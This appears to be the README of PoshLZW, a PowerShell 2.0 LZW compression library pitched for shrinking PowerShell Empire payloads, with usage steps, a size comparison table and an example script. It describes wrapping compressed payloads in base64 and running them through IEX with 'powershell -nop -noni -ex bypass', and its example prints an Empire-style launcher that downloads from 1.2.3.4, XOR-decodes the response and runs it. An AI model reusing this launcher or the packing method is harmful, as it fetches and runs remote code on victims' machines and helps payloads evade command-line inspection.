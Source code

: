 License
-------

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 

Version 2, December 2004 
                    
Copyright (C) 2004 Sam Hocevar <sam@hocevar.net> 

Everyone is permitted to copy and distribute verbatim or modified 

copies of this license document, and changing it is allowed as long 

as the name is changed. 

DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE 
           
TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION 

0. You just DO WHAT THE FUCK YOU WANT TO.



Powershell developper ?
-----------------------
I'm far away from a real Powershell developper, so be free to propose improvements and code size reduction tricks.


PoshLZW
--------
`PowerShell LZW` is a LZW compression/decompression library for Powershell 2.0


Powershell 2.0 ?
----------------
By default, if you wanna have compatility you'll have to use v2.0, as it's the case for PowerShell Empire.


iCodingSize !!?
---------------
LZW work by building a ephemeral dictionnary, feeded then by following bytes. The main idea is to encode bytes not on 8-bits but on iCodingSize-bits (9 to 15).

Why min at 9 ? 'cause less would mean size growth.

Why max at 15 ? Well... why not ;-)

So for example, 4-bytes can be encoded only on 9 bits (if you choose an iCodingSize value of 9 and if it's in the dictionnary).

This value is also the maximum size of the dictionnary : 2^iCodingSize-1.

It's stored in the output at index 0, encoded on 8-bits (a normal byte).


Five functions
---------------
Five Long functions :
* Bits-Shift : a simple bits shifting function that don't fucking exists in Powershell 2 !!?
* Bits-Read : read n-bits from an array of Bytes, at a certain position
* Bits-Write : write n-bits to an array of Bytes, at a certain position
* LZWCompress : Compress
* LZWDecompress : Decompress

These too long functions have been manually shortened to save space:
* bs (for Bits-Shift), 62 bytes long
* br (for Bits-Read), 225 bytes long
* bw (for Bits-Write), 247 bytes long
* lzwc (for LZWCompress), 395 bytes long
* lzwd (for LZWDecompress), 345 bytes long

Could certainly be optimized ;-)


Powershell script intended to be executed
-----------------------------------------
To use LZW it's simple :

1/ Declare functions (or import-module PoshLZW.ps1)

```PS> $m_=[math];
PS> function bs{...
PS> function bw{...
PS> function lzwc{...
```


2/ compress your powershell script :

```PS> $MyScript = "write-host 'Hello World';";
PS> $lz = lzwc $MyScript 10;
```

3/ encode the compressed script in base64
```PS> $lz64 = [convert]::ToBase64String($lz);
```


4/ Build the payload with the overhead :
```PS> $payload = '$m_=[math];';
PS> $payload+= 'function bs{...' + 'function br{...' + 'function lzwd{...';
PS> $payload+= 'IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lz64+'"))))';
```

Then you can execute the payload with #>powershell -nop -noni -ex bypass -c here-the-payload.

But take care about the command line size ;-)



Good rate ?
----------------
Here you'll find a comparison table of different payloads.
* Text : normal ps1 file/payload, without optimisation.
* H : overhead of 701 bytes (LZWDecompress, Bits-Read, Bits-Shift and IEX).
* 9-15 : iCodingSize, meaning encoding size in bits and also dictionnary size.
A way to use compression could be to run "powershell -c H+B64(LZW(T,9))"

 
|                      | Launcher | Stager |  Agent  |
|----------------------|----------|--------|---------|
|       Text as T      |   418    |  4 909 |  44 041 |
|           B64(T)     | 1 116    | 13 092 | 117 444 |
|           LZW(T,9)   |   387    |  3 740 |  27 878 |
|     H+B64(LZW(T,9)   | 2 051    | 13 877 |  97 516 |
| B64(H+B64(LZW(T,9))  | 5 472    | 37 008 | 260 044 |
|           LZW(T,10)  |   426    |  3 260 |  24 934 |
|     H+B64(LZW(T,10)  | 2 112    | 12 127 |  85 885 |
| B64(H+B64(LZW(T,10)) | 5 632    | 32 340 | 229 028 |
|           LZW(T,11)  |   469    |  3 145 |  20 474 |
|     H+B64(LZW(T,11)  | 2 261    |`11 576`|  72 444 |
| B64(H+B64(LZW(T,11)) | 6 032    | 30 872 | 193 184 |
|           LZW(T,12)  |   511    |  3 373 |  18 312 |
|     H+B64(LZW(T,12)  | 2 237    | 11 600 |  63 583 |
| B64(H+B64(LZW(T,12)) | 5 968    | 30 936 | 169 556 |
|           LZW(T,13)  |   554    |  3 654 |  16 589 |
|     H+B64(LZW(T,13)  | 2 426    | 12 788 | `58 306`|
| B64(H+B64(LZW(T,13)) | 6 472    | 34 104 | 155 484 |
|           LZW(T,14)  |   596    |  3 935 |  17 545 |
|     H+B64(LZW(T,14)  | 2 481    | 13 243 |  59 852 |
| B64(H+B64(LZW(T,14)) | 6 616    | 35 316 | 159 608 |
|           LZW(T,15)  |   639    |  4 216 |  18 798 |
|     H+B64(LZW(T,15)  | 2 611    | 13 944 |  63 437 |
| B64(H+B64(LZW(T,15)) | 6 964    | 37 184 | 169 168 |



Example
-------

Stats
    $ PS > $text = '$Wc=NEW-ObjEcT SYStEM.Net.WEBCliENT;$u="Test/5.0 (Windows NT 5.1; Trident/1.0;) like Gecko";$wc.HeADerS.ADD("User-Agent",$u);$wc.ProXY = [SYSTem.Net.WEBREQuEsT]::DEFAulTWebPROXY;$WC.PRoxy.CReDEnTIaLS = [SYStEM.NET.CRedEnTiALCACHe]::DEFAulTNetwORKCredenTiaLs;$K="aaaaaaaabbbbbbbbcccccccceeeeeeee";$I=0;[chAr[]]$b=([CHAr[]]($wC.DowNlOaDSTRing("http://1.2.3.4:80/index.asp")))|%{$_-BXoR$k[$i++%$k.LeNgTH]};IEX ($B-jOIn"")';
    $ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("stager.ps1"));
    $ PS > #$text = [System.Text.Encoding]::ASCII.GetString([System.IO.File]::ReadAllBytes("agent.ps1"));
    $ PS > write-host "|                 Text   |" $text.length
    $ PS > write-host "|             B64(Text)  |" ([Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($text))).length
    $ PS > foreach ($i in 9..15){
    $ PS > 	$lzw = lzwc $text $i;
    $ PS > 	write-host "|           LZW(T,$i)  |" $lzw.length;
    $ PS > 	$64lzw = [convert]::ToBase64String($lzw);
    $ PS > 	$overhead='$m_=[math];function bs{param($v,$s)return $m_::Floor($v*$m_::Pow(2,-$s))}function br{param($o,$c,$a)$p=$i=$e=0;$j=$m_::floor(($t=$a.value)*$c/8);$s=($r=8-(($t*$c)%8))-$c;$b=$m_::Pow(2,$c)-1;while($e-lt$c){$p=$p-bor((bs $o[$j+$i] $s)-band$b);$e+=$r;$r=$m_::max($r,8);$s+=8;$i++}$a.value++;return $p}';
    $ PS > function lzwd{param($p)$a=$j=0;$v=@();$e=$o="";$c=$p[0];$p=$p[1..$p.length];foreach($i in 0..255){$v+=[string]([char]$i)}$o+=($w=[string]$v[($j=br $p $c ([ref]$a))]);while([math]::floor($a*$c/8)-lt($p.length-1)){$l=$v.count;$j=br $p $c ([ref]$a);$o+=$v[$j];if($j-lt$l){$e=[string]$v[$j]}elseif($j-eq$l){$e=$w+$w[0]}$v+=$w+$e[0];$w=$e}return $o;}IEX(lzwd ([byte[]]([System.Convert]::FromBase64String("'+$lzw+'"))))';
    $ PS > 	write-host "|     H+B64(LZW(T,$i)  |" $overhead.length;
    $ PS > 	$b64hz = [convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($overhead));
    $ PS > 	write-host "| B64(H+B64(LZW(T,$i)) |" $b64hz.length;
    $ PS > }

Last word ?
-----------

````
         ///\\\  ( Have Fun )
        ( ^  ^ ) /
      __(  __  )__
     / _ `----' _ \
     \__\   _   |__\
      (..) _| _ (..)
       |____(___|     Mynameisv_ 2016
_ __ _ (____)____) _ _________________________________ _'
````